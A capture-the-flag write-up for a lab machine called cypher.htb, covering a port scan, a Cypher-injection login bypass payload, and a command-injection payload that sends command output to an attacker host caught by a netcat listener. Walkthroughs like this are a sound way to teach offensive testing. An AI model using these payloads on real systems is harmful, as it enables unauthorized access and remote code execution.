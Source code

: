 ## Step 1: Scan for Open Ports

First thing, let's scan for open ports with the following `nmap` command:

```bash
nmap -sV -sC -p- --defeat-rst-ratelimit -O -A cypher.htb
```
## Scan results:
![Nmap port scan](img/nmap.png)

## Step 2: Investigate website

With only ports 80 and 22 open, we’ll start by examining the web service.

![Login page](img/loginpage.png)

## Step 3: Cypher injection

After trying some Cypher injection payloads we can see that there is a huge error popping up. This strongly suggests a potential Cypher injection vulnerability.

![Login page after injecting 'OR 1=1](img/image.png)

## Step 4: Crafting authentication bypass payload

```bash
{
  "username": "admin' OR 1=1 RETURN 'a94a8fe5ccb19ba61c4c0873d391e987982fbbd3' AS hash //",
  "password": "test"
}
```
### How this works?
This payload returns the hash of the string "test", which is then used for comparison against the user-provided password hash instead of actual admins hash.

### Tip
You dont have to use burpsuite. You can just paste the following payload into login form.

![Demo page](img/Demopage.png)

## Step 5: Crafting SSRF payload with Cypher Injection

```bash
CALL custom.getUrlStatusCode("http://ip:port/?c=$(whoami)")
```

### How this works?
This payload uses custom function that tries to return a status code, but also executes command given at the end.

### How to use?

Set up netcat listener on your port.

```bash
nc -lnvp 4444
```
Enter the payload and voilà, you just got yourself an RCE.



